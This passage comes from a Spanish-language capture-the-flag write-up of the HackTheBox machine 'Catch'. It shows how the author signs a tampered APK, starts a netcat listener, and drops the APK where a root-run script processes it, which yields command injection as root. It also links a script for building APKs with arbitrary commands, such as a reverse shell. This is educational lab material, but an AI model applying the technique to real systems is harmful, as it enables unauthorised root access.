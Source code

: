 (Nos pedirá al inicio una contraseña, le pondremos cualquiera que nos guste, yo use `holahola` y los demás datos también son random, recordemos que no válida nada de esto el script)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/catch/450bash_keytool_APKwithIDtoNC.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

La llave se llama `juguito_de_mora.keystore` y su alias es `mora`, ahora si firmemos el APK con `jarsigner` y esta llave:

```bash
❱ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore juguito_de_mora.keystore catchv1.0.apk mora
```

Le pasamos al final los 3 elementos con los que contamos: nombre de llave, el archivo APK y el alias de la llave.

Nos pide la contraseña que asignamos, finalmente tenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/catch/450bash_jarsigner_APKwithIDtoNC.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Validamos por si algo:

```bash
❱ jarsigner -verify catchv1.0.apk

jar verified.
```

Tamos listos pal último paso.

🛸 Subir el APK a la máquina, levantar servidor sobre el puerto donde recibiremos el output del comando y ser felices obteniendo el `command-injection`:

Pongámonos en escucha por el puerto `4450`:

```bash
❱ nc -lvp 4450
listening on [any] 4450 ...
```

Subimos el objeto a la máquina víctima, lo copiamos a la ruta `/opt/mdm/apk_bin/` y vemos si nuestras expectativas eran reales y `root` ejecuta el script:

.. .... Esperamos un rato.:..::

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/catch/450bash_nc_rootID_commandInjection_DONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Vemos el `id` del usuario **root**! Así que encontramos una ejecución de comandos como ese usuario en el sistema 😁

...

Para no hacer largo el writeup la idea es la misma para cualquier comando que quieras ejecutar, así que vamos a obtener una **Reverse Shell**...

Te dejo el script (me apoyé del que explotamos) para generar el APK con cualquier comando (: (te invito a antes automatizarlo tu mismo, es solo acoplar lo ya visto)

> [apk_namejection.sh](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/catch/apk_namejection.sh)
